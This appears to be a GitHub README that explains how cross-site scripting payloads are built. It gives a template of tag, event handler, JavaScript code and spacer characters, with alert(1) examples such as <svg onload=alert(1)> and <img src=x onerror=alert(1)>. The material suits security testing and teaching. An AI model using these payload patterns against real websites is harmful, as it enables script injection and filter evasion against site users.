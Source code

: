 # **XSS-payloads**
### XSS payload scheme

Aside from the classic XSS payload <script>alert(1)</script> and source based ones like <a href=x>, we can start building payloads using the following simple scheme:
```
<tag handler=code>
````
Where we have the HTML tag, the event handler associated with it and the javascript code to execute.
But although it’s true for short payloads like <svg onload=alert(1)>, some payloads like <b onclick=alert(1)> that requires user
 interaction for example, needs a text to be clicked for the javascript code be triggered:
```
<b onclick=alert(1)>click me!
```
 
Some payloads also need tag attribute(s) inside it:

```
<img src=x onerror=alert(1)>
```
And some needs something before it:

```
<frameset><frame src onload=alert(1)>
```
So let’s make a better scheme:

```
extra1 <tag extra2 handler=code> extra3
```
It has the following variation:
```
extra1 <tag handler=code extra2> extra3
```
Almost there. There’s also an important thing to consider: the spaces inside the tag. In the major browsers, we can have a slash between tag and handler, for example:

```
<svg/onload=alert(1)>
```
This and other characters are allowed between tag and handler, tag and attribute, attribute and handler etc without change the syntax.

Here is our final scheme:
```
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
```
Variation:
```
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
```
